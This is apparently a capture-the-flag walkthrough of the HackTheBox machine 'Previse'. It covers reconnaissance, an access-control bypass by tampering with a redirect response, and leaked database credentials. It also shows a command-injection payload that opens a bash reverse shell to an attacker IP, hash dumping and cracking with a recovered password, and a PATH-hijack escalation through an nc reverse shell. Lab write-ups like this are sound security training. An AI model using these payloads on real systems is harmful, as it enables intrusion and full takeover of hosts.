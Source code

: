 # Previse
by phoenix
11.12.2021

### NMAP 
```
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### GOBUSTER
```
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/login.php            (Status: 200) [Size: 2224]                              
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
/config.php           (Status: 200) [Size: 0]                                 
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/header.php           (Status: 200) [Size: 980]                               
/footer.php           (Status: 200) [Size: 217]                               
/status.php           (Status: 302) [Size: 2968] [--> login.php]              
/server-status        (Status: 403) [Size: 277]
```


### Web server

HTTP POST attempt at login

```
POST /login.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/login.php
Cookie: PHPSESSID=48sfje0s37h12vmu57qa491tp9
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

Connecting to /accounts.php and intercepting the response allows to change the 302 response code to 200. Can now access the accounts creation page.

After logging in you can download `siteBackup.zip`, which cointains the following MySQL credentials
```
root:mySQL_p@ssw0rd!:)
```

After checking the management menu we can download out.log:

```
time,user,fileID
1622482496,m4lwhere,4
1622485614,m4lwhere,4
1622486215,m4lwhere,4
1622486218,m4lwhere,1
1622486221,m4lwhere,1
1622678056,m4lwhere,5
1622678059,m4lwhere,6
1622679247,m4lwhere,1
1622680894,m4lwhere,5
1622708567,m4lwhere,4
1622708573,m4lwhere,4
1622708579,m4lwhere,5
1622710159,m4lwhere,4
1622712633,m4lwhere,4
1622715674,m4lwhere,24
1622715842,m4lwhere,23
1623197471,m4lwhere,25
1623200269,m4lwhere,25
1623236411,m4lwhere,23
1623236571,m4lwhere,26
1623238675,m4lwhere,23
1623238684,m4lwhere,23
1623978778,m4lwhere,32
1639248269,username,32
1639248298,username,32
1639248306,username,32
1639248308,username,32
1639248348,username,32
1639248359,username,32
1639248814,username,1
1639248818,username,2
1639248823,username,3
1639248951,username,5
1639248955,username,31
1639248958,username,33
1639248962,username,35
1639249020,admin123,32
1639249509,urmum,32
1639250696,attacker,32
```

Unique usernames:
```
m4lwhere
username
urmum
```

### Initial access

Looking at the `logs.php` code, it's using a potentially vulnerable exec() funtion, which allows us remote execution

```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=48sfje0s37h12vmu57qa491tp9
Upgrade-Insecure-Requests: 1

delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.14.98/9001+0>%261'
```

Now we can access mysql with the credentials

```
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | alice    | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2021-12-11 18:18:00 |
|  3 | toto1    | $1$🧂llol$gmxpccBdovvrEKyq6HwCa0 | 2021-12-11 18:19:21 |
|  4 | notuser  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-12-11 18:30:38 |
|  5 | robo123  | $1$🧂llol$JCESjSwOT.SR6o8ib5o1t. | 2021-12-11 18:33:32 |
|  6 | admin123 | $1$🧂llol$wzYjWk/p5usz8BzxvPrXs1 | 2021-12-11 18:42:35 |
|  7 | username | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-12-11 18:43:56 |
|  8 | urmum    | $1$🧂llol$Bzg2ECZoERc95bJ0vlG8P0 | 2021-12-11 19:04:03 |
|  9 | attacker | $1$🧂llol$kHSoPzijfmwc4vYAY2Bcj0 | 2021-12-11 19:24:28 |
+----+----------+------------------------------------+---------------------+
```

Crack the hash
```
hashcat -a 0 -m 500 passhash.txt /usr/share/wordlists/rockyou.txt
```

m4lwhere:ilovecody112235!

User flag

sudo -l shows you can run a backup script with root privs.

```
root@previse:/opt/scripts# cat access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

As it uses static names we can:
1. Add the /dev/shm dir to path
2. Create a "date" script with reverse nc shell
3. Change perms to 777
4. Run the script that gives you root shell




















